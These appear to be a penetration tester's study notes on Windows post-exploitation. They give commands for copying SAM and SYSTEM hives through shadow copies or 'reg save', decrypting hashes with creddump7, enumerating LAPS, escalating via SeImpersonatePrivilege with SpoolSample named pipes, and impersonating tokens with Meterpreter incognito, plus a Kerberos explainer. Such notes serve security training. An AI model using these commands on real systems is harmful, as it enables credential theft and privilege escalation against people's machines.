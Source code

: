 ## Windows Post-exp

Linking Windows LM:
[[Windows LM]]

Meterpreter:
[[General Meterpreter Post-exp]]


### Windows Creds

#### SAM database

SID of the user is the unique user id in the windows system.
#ps1 #creds
```powershell
$env:computername
[wmi] "Win32_userAccount.Domain='corp1',Name='Administrator'"
```
We can resolve it with Powerview. 
#powerview 
[[AD Enum - Powerview & Bloodhound]]

The system has a lock on SAM DB file (**c:\Windows\System32\config\sam**), we can obtain it by making the shadow copy of the disk and copy the SAM DB from the shadow copy.
#cmd
```cmd
wmic shadowcopy call create Volume='C:\'
vssadmin list shadows
// Shadow copy volume path
```
Then: 
#cmd #creds-leak 
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam

// and copy the AES encryption key:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system

```

Or we can get the same info from registry:
#cmd #creds-leak 
```cmd
reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam

reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```

We can either use Creddump7 or Mimikatz to decrypt the NTLM hash:
#creds-leak #mimikatz
```bash
sudo apt install python-crypto
sudo git clone https://github.com/Neohapsis/creddump7
cd creddump7/
python pwdump.py /home/kali/system /home/kali/sam
```
For mimikatz:
[[Mimikatz and Rubeus]]

#### LAPS
Enum LAPS:
#ps1 #laps
```powershell
Import-Module .\LAPSToolkit.ps1
Get-LAPSComputers
Find-LAPSDelegatedGroups
Get-NetGroupMember -GroupName "LAPS Password Readers"


Get-LAPSComputers
```

### Access Tokens

With the **whoami /priv** we can view the user's access token privilages. 

While it is impossible to modify the set of privileges that are associated with an active logon session, it is however possible to add additional privileges that will take effect after the targeted user account logs out and logs back in.
Programmatically this can be done with the **Win32 LsaAddAccountRights** 699 API, but more often it would be performed through a group policy or locally through an application like secpol.msc

There are **two types of access token** - each process has two: one is the orginal one originating from the user and the second one is the impersonation token that can be create which allows a user to act on behalf of another user without that user's credentials. 
Impersonation tokens have four levels: **Anonymous, Identification, Impersonation and Delegation**. Anonymous and Identification only allows the enumeration of info.

Impersonation allows to impersonate the client's identity while Delegation makes it possible to perform the sequential access control checks across multiple machine (distibuted operations). 

#### Elevation with impersonation

There are nine different privileges that may allows for **priv escalation from medium integrity to either high integiry or system integrity** or enable compromised process to run as other user.

**SeImpersonatePrivilege** allows to impersonate any token for which we can get a reference or handle. The privilage is built-in in the LocalService - Network Service account which IIS account is assigned by default. That let us escalate the privilages potentially on any IIS.

If we have the **SeImpersonatePrivilege** we can use the WIN32 API DuplicateTokenEx call to create the primary token from the impersonation token to create the new process in the context of impersonated user. If no token in memory we can likely force the System account to give us its token to impersonate.

We will use **windows pipes** to leverage the **SeImpersonatePrivilege**. Windows Pipes are Interprocess communication like RPC, COM, sockets. A Pipe is a shared memory in kernel that process can use for interprocess comms. It is a client/server, pipe server can create the pipe and pipe clients connect to pipe to interact. Anonymous pipes are used for parent child processes comms, **named pipes** are more broadly used. We will use the named pipe which supports impersonation.

The techinque uses the **print spool service** which runs in the System context. Print Spooler monitor printer object changes and sends change notifications to print clients by connecting to their respective named pipes. To exploit this we need to create the process running with the SeImpersonatePrivialges running as the print client, we would be able to impersonate the System - that can be used both for LPE and Active Directory exploits. 

C# application, creates the pipe, waits for the connection and impersonates the clients that it attempts to connect to. **Refer to the Impersonate VS solution.**

**CreateNamedPipeA** API requires to give the lpName which must follow the standarized format and be unique in the Operating System, like \\.\pipe\spoolss. However, there is a trick with path transformation, so in the SpoolSample we do:
#priv-esc-win
```cmd
SpoolSample.exe appsrv01 appsrv01/pipe/test
```

And in out binary we do:
#priv-esc-win 
```cmd
Impersonate.exe \\.\pipe\test\pipe\spoolss
```


### MSF Incognito

Incognito Meterpreter module can be used to impersonate any logged in users and obtain code execution in their context without password or hashes. This does not rely on Mimikatz.

To use it we must have the System integrity Meterpreter shell.
#msf #priv-esc-win 
``` bash
load incognito
list_tokens -u

e.g.
impersonate_token corp1\\admin
getuid

```


## Kerberos Authentication

Kerberos auth protocol explained: ^6ade8c
1. **User** sends the **AS_REQ** to the **DC**, with the **timestamp encrypted using the user's password hash** (The DC would check if the password is valid by doing the decryption, it checks also the timestamp for dups - replay attacks).
2. The **DC replays** with the AS_REP which has the **session token and TGT** - the **session key is encrypted using the user's password hash** so the client can decrypt and use it. TGT has improtant domain relation info (group membership, IP address of the klient and session key). **To not tamper the TGT is encrypted by the secret known only to DC** (by the **password hash of the krbgt service**). TGT is valid for 10h. 
3. When the user wants to access the **Domain resources** (SMB Share, Exchange - anything which has **SPN in the Domain**) the KDC is contact again with the TGS_REQ. It construct the TGS request with the user and timestamp encrypted using the session key and TGT. The DC uses the krbtgt to decrypt the TGT and then the session key (session key obtained from TGT) to decrypt the username requesting and timestamp.
4. If successful the **TGS_REP** is sent with the - SPN to which access is granted, a new session key to be used with the SPN, **Service Ticket encrypted with the Service NTLM hash** which has the session_key, username, timestamp, AD info etc. The SPN and session key are encrypted using the previous session key (from TGT). Kerberoasting and Silver Ticket: [[Active Directory]]
**Service Authentication:**
5. **Client sends the AP_REQ** with the username and timestamp encrypted with the new session key and the service ticket. The service decrypts the ticket with its own password, then it checks everything and decrypts everything. 
6. Once the service confirms the authentication and authorization (group membership) etc. it responds to the client with the Application specific session (the client is authenticated).

Because of this protocol it mitigates the sniffing and replay attacks and can be done over unencrypted channel.
However, there are issues - when **krbtgt hash** is compromised the user can forge any TGT (**golden ticket**)[[Active Directory]]; - when the **SPN hash** is compromised the user can forge any Service Tickets (**silver ticket**);[[Active Directory]] - the user can crack service ticket for the service passwords offline (weak service password becomes the issue) using obtained TGS; kerberoasting: [[Active Directory]]. 

For Mimikatz and Rubeus guide refer here: [[Mimikatz and Rubeus]]


